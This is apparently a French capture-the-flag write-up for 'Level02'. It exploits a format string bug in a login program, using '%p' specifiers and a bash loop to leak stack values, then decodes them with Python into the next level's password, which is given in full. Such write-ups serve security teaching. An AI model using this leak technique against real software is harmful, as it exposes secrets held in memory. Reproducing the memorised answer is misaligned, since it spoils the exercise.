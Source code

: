 ## Level02

En le lançant le programme nous demande d'entrée un nom d'utilisateur et un mot de pass. 

    /***************************************\
    | You must login to access this system. |
    \**************************************/
    --[ Username: login
    --[ Password: pass
    *****************************************
    login does not have access!


Quoi que l'on met on nous dit que nous n'avons pas les accès.

Dans le programme nous trouvons un printf, il va donc falloir utiliser une *format string attack*.

En décortiquant le code on s’aperçoit que le .pass qui est open est garder dans un buffer lorsqu'on lance le programme.

Grâce au printf plus bas, nous pouvons donc essayer d'afficher la stack, pour ça nous allons utiliser le paramètre de printf %p.

Ce qui nous donne :

    /***************************************\
    | You must login to access this system. |
    \**************************************/
    --[ Username: %1$p
    --[ Password:
    *****************************************
    0x7fffffffe510 does not have access!
On à donc la première adresse de la stack, bien, maintenant automatisons ça pour le reste.

     for((i = 1; i < 30; i++)); do echo "$i - %$i\$p" | ./level02 ;done

On ajoute un grep pour que ce soit plus lisible. 

     for((i = 1; i < 30; i++)); do echo "$i - %$i\$p" | ./level02 | grep not ;done

    18 - (nil) does not have access!
    19 - (nil) does not have access!
    20 - 0x100000000 does not have access!
    21 - (nil) does not have access!
    22 - 0x756e505234376848 does not have access!
    23 - 0x45414a3561733951 does not have access!
    24 - 0x377a7143574e6758 does not have access!
    25 - 0x354a35686e475873 does not have access!
    26 - 0x48336750664b394d does not have access!
    27 - (nil) does not have access!
    28 - 0x383225202d203832 does not have access!
    29 - 0x7024 does not have access!

On remarque que il y a 5 valeur qui on l'air particulières. On sait que le token fait 40 caractères, donc on en déduit que nos 5 valeurs trouver dans la stack peuvent correspondre à notre token. Puisque 5 * 8 = 40.

On prend donc toutes ces valeurs et on les passes dans un convertisseur hex to ascii.
En utilisant python on obtient : 

    $ python -c 'print "756e505234376848".decode("hex")[::-1]'
    Hh74RPnu
    $ python -c 'print "45414a3561733951".decode("hex")[::-1]'
    Q9sa5JAE
    $ python -c 'print "377a7143574e6758".decode("hex")[::-1]'
    XgNWCqz7
    $ python -c 'print "354a35686e475873".decode("hex")[::-1]'
    sXGnh5J5
    $ python -c 'print "48336750664b394d".decode("hex")[::-1]'
    M9KfPg3H

  Le [::-1] permet de reverse la string, puisqu'elle nous est donnée depuis la stack.

Le password du level03 est donc :

    Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H


 




